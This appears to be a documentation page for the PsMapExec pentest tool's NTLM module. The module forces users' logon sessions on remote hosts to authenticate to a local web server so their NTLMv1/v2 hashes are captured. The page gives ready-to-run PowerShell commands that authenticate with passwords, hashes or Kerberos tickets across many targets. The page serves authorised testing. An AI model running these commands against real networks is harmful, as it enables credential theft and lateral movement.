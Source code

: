# NTLM

{% hint style="warning" %}
Does not currently working against Windows Server 2008 / Windows 7 / Windows Server 2012&#x20;
{% endhint %}

This module builds upon the [SessionExec](https://viperone.gitbook.io/pentest-everything/psmapexec/modules/sessionexec) module. Whereby, execution on a remote host will force each user logon session to authenticate to a locally hosted web sever and obtain the users NTLMv1 or NTLMv2 hash.

This modules code is based on a fork of [Get-NetNTLM](https://github.com/The-Viper-One/Get-NetNTLM).

{% hint style="info" %}
If you wish to relay hashes or capture them with Inveigh or Responder, instead use the [SessionRelay](https://viperone.gitbook.io/pentest-everything/psmapexec/modules/sessionrelay) module.
{% endhint %}

For example, assuming the below output. We can see the remote host currently has the users standarduser and srv2019-admin within existing logon sessions. PsMapExec will attempt to obtain each users NTLMv1 or NTLMv2 hash.

```
C:\Users\SRV2019-Admin>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 standarduser                              1  Disc            7  04/08/2024 17:14
 srv2019-admin         console             2  Active      none   04/08/2024 17:18
```

Output for  NTLM is stored `$PWD\PME\NTLM\`

### **Supported Methods** <a href="#supported-methods" id="supported-methods"></a>

* SMB
* SessionHunter (WMI)
* WMI
* WinRM

### Optional Parameters <a href="#optional-parameters" id="optional-parameters"></a>

| Parameter    | Value | Description                                 |
| ------------ | ----- | ------------------------------------------- |
| -ShowOutput  | N/A   | Displays each targets output to the console |
| -SuccessOnly | N/A   | Display only successful results             |

## Usage <a href="#usage" id="usage"></a>

{% code overflow="wrap" %}
```powershell
# SMB execution with password authentication, targeting workstations
PsMapExec -Module SessionExec -Targets "Workstations" Method "SMB" -Username [User] -Password [Pass] -Command "whoami /all"

# WinRM execution with hash authentication, targeting servers
PsMapExec -Module SessionExec -Targets "Servers" -Username [User] -Hash [RC4/AES256/NTLM]  -Method "WinRM" -Command "whoami /all"

# WMI execution with Kerberos ticket authentication (Username not required)
PsMapExec -Module SessionExec -Targets "All" -Method "WMI" -Ticket [doI..] 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (2166).png" alt=""><figcaption></figcaption></figure>
